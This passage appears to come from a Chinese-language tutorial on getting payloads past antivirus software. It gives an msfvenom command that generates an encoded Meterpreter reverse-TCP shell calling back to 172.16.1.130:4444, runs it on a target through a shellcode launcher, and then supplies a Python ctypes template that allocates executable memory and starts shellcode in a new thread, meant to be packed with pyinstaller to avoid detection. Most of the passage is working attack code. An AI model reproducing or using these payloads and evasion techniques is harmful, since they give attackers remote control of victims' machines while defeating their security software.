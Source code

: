 ```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 -e x86/shikata_ga_nai -i 5 -f raw > test.c
```

靶机执行

```bash
shellcode_launcher.exe -i test.c
```

msf监听正常上线

## csc和InstallUtil

不再赘述，参考上文白加黑

# 偏僻语言

实际上也不能说偏僻语言，原理是让杀软不识别文件的pe头。我们在这说两种

## pyinstaller

py版的shellcode模板

```python
#! /usr/bin/env python
# encoding:utf-8

import ctypes

def execute():
    # Bind shell
    shellcode = bytearray(
    "\xbe\x24\x6e\x0c\x71\xda\xc8\xd9\x74\x24\xf4\x5b\x29"
        ...
    "\x37\xa5\x48\xea\x47\xf6\x81\x90\x07\xc6\x62\x9a\x56"
    "\x13"
     )

    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
    ctypes.c_int(len(shellcode)),
    ctypes.c_int(0x3000),
    ctypes.c_int(0x40))

    buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
    buf,
    ctypes.c_int(len(shellcode)))

    ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_int(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0)))

    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),
    ctypes.c_int(-1))
if __name__ == "__main__":
    execute()
```
